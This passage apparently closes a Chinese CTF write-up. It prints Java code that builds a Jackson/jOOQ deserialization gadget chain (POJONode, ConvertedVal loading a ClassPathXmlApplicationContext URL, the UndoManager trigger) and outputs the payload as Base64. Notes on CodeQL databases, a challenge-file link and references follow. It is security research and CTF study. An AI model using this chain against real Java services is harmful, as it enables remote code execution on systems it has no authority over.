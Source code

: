 ```java
        Class clazz4 = Class.forName("org.jooq.impl.ConvertedVal");
        Constructor constructor4 = clazz4.getDeclaredConstructors()[0];
        constructor4.setAccessible(true);
        Object convertedVal = constructor4.newInstance(val, tableDataType);

        Object value = url;
        Class type = ClassPathXmlApplicationContext.class;

        ReflectUtil.setFieldValue(val, "value", value);
        ReflectUtil.setFieldValue(tableDataType, "uType", type);

        ClassPool classPool = ClassPool.getDefault();
        ClassPool.getDefault().appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
        CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(ctMethod);
        ctClass.toClass();

        POJONode pojoNode = new POJONode(convertedVal);

        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector vector = (Vector) ReflectUtil.getFieldValue(undoManager, "edits");
        vector.add(pojoNode);
        ReflectUtil.setFieldValue(eventListenerList, "listenerList", new Object[]{InternalError.class, undoManager});

        byte[] data = SerializeUtil.serialize(eventListenerList);

        System.out.println(Base64.getEncoder().encodeToString(data));

    }
}
```

# codeql database

hutool和jooq的数据库都是 通过github action 直接生成的。但是导入mac 的话是无法成功的，但是windows可以。

https://www.cnblogs.com/kingbridge/articles/18100619

jdk的数据库虽然题目是jdk17的，但是我用的是jdk8的数据库。这位作者已经弄好了，直接用即可。

https://blog.csdn.net/mole_exp/article/details/122330521

题目比较久远了，这里附上题目的附件。

https://pan.baidu.com/s/1FnsS0vMr3mR93yL-rY3NaA?pwd=1234

# 结语

其实这个算不上是污点追踪，因为每一个类的里面的每一个属性都是可以通过反射或者一些其它的方式来进行赋值的。和我的另一篇文章其实不太一样。https://xz.aliyun.com/t/16468

参考

https://xz.aliyun.com/t/14190

https://xz.aliyun.com/t/15487

https://xz.aliyun.com/t/14298





